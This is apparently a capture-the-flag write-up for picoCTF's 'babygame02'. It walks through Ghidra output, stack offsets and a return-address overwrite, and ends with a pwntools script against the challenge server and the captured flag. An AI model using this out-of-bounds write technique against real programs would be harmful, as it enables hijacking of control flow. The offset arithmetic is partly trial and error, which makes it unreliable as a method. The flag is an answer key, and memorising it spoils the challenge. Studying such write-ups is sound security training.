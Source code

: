 # babygame02

## Method

```
Break the game and get the flag.
Welcome to BabyGame 02! Navigate around the map and see what you can find! The game is available to download here.
There is no source available, so you'll have to figure your way around the map. You can connect with it using nc saturn.picoctf.net 59056.
```
**Hint1:** Use 'w','a','s','d' to move around. There may be secret commands to make your life easy.


Similar challenge as to babygame01 grid like structure moving to the final location for the flag but not recieving it.

I shoved it into ghidra like before to see how I could solve it. 

```c
undefined4 main(void)

{
  int iVar1;
  int local_aa8;
  int local_aa4;
  undefined local_a9d [2700];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  init_player(&local_aa8);
  init_map(local_a9d,&local_aa8);
  print_map(local_a9d,&local_aa8);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      local_11 = (char)iVar1;
      move_player(&local_aa8,(int)local_11,local_a9d);
      print_map(local_a9d,&local_aa8);
    } while (local_aa8 != 0x1d);
  } while (local_aa4 != 0x59);
  puts("You win!");
  return 0;
}

```
Glancing at the c function its similar but with 1 glaring issue. We do not have the supposed Test condition for printing the flag.

However it seems the initilizations etc are still the same.
Looking again at the functions like ``init_player`` and ``init_map`` we realise its similar even ``move_player`` they have provided the same function which we can use to cause underflows in the game. **However in this the move_player() function clears the previous position (using '.') before writing the new position meaning we need to find a specific location to overwrite a address directly.**

investigating all functions we finally see the win funciton however it seems as though from our C function there is no possible way to go to it ;-;

---

**Note:**

As discussed before in babygame01 we know memory here is used in the form of a stack where it grows 'downwards' in the memory meaning address decreases as we add more things. Each function has it's own stack frame.

For this stack we have two things ESP (Stack Pointer) and EBP (Base Pointer)

1. ESP (register) the stack pointer points to the top of the stack or the most recently entered value.

2. EBP(register) Serves as a fixed reference point for the current Stack being used.

We also have general purpose registers liek EAX, EBX etc...

---

`` address opcodes(operations) operation function ``
The decompiled assembly in ghidra has this format ^ 

*Note:*

- LEA = Load Effective Address (calculates new address loading it in a register)
- PUSH = pushes a new value onto the stack
- Mov = transfers data from one location to another

---


Win function ->

![image](https://github.com/user-attachments/assets/1a18a1dc-73c7-452f-855b-312ed4555663)

### Coming up with a solution now

Considering the previous game we can traverse acrossss the memory byte by byte And we can change one byte anywhere in the stack with the name of the player as shown before. The easiest way to go about this is changing the move_player's return address to be to the win function's address which is around  ``0804975d`` or greater 

From this we can understand a certain bytes workflow on how to possibly traverse to it.

Looking at main first we start calculating the number of bytes from main first.

![image](https://github.com/user-attachments/assets/95597c34-fa3c-4d93-b1e7-a3be4aa37439)

Statements before this used to setup the stack.

```asm
        0804967e 55              PUSH       EBP
        0804967f 89  e5           MOV        EBP ,ESP
        08049681 53              PUSH       EBX
        08049682 51              PUSH       ECX
        08049683 81  ec  a0       SUB        ESP ,2720
                 0a  00  00
```

Then we can Start looking at move_player

![image](https://github.com/user-attachments/assets/8b014747-64be-43b4-8333-dfe0ca0bc57f)

```asm
        080496f2 83  ec  04       SUB        ESP ,4
        080496f5 8d  95  6b       LEA        EDX => local_a9d ,[EBP  + -2709 ]
                 f5  ff  ff
        080496fb 52              PUSH       EDX
        080496fc 50              PUSH       EAX
        080496fd 8d  85  60       LEA        EAX => local_aa8 ,[EBP  + -2720 ]
                 f5  ff  ff
        08049703 50              PUSH       EAX
        08049704 e8  6b  fd       CALL       move_player                                      undefined move_player(undefined4
                 ff  ff
```

```
EBP // 4 bytes
EBX // 4 bytes
ECX // 4 bytes
^
|
| 2720 Bytes
v
sub 4 // 4 bytes
param EDX (EBP - 2709) // 11 bytes
param EAX // 4 bytes
dont care about param EAX (EBP - 2720) // 0 bytes refers to existing offset
param local_aa8 // 4 bytes
return address (08049709) // 4 bytes
```

From here we start calculating the number of bytes for each statement

- 4 x 3 for the first 3 Lines

- We consider 4 btytes for the sub 4

- Then we have to consider the fact that we move 2709 back up which is 11 bits from the already moved 2720 

- We can then consider 4 x 3 for the last 3 statements for the return address

Adding all of this we get 39 bytes. Meaning we need to underflow 39 bytes from the buffer Array

However after about 4 movements left the program crashed with SIGSEGV (segmentation fault). To which i can assume i had overwritten something important on the stack due to what the player does now hence why it had crashed. As each time we move the player it seems to change the value to ``.`` then move hence overwritting important stuff on the stack. To avoid this i move once up an extra time before moving to the required offset

I then proceeded to change the name of the player to the value that i want to traverse through Looking at the win condition I can understand that i must traverse to the ``08049770`` or any number above that. Like the previous challenge where we had ``@`` there to write to least significant LSB of the register so again we have to do the same this time pointing it directly to 70. In hex 70 to ascii is ``p`` hence we can change the name to p this allows us to underflow whatever comes next with the lsb 70 moving us to it. **P.S I tried values of ``5d`` to 70 but none worked for me and upon trying 70 worked.**

Now from here I underflow 39 bytes (moving me into the return address). After this accounting for the fact that i had to move up an extra once to avoid a fault i can then move down once. Which then returns my flag :D

Script for insta solve:

```python
from pwn import *

p = remote("saturn.picoctf.net", 59056)

p.sendline("aaaawwwww")
p.sendline("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
p.sendline("lp")
p.sendline("s")

p.interactive()
```

## Flag

> picoCTF{gamer_jump1ng_4r0unD_227ec6b0}
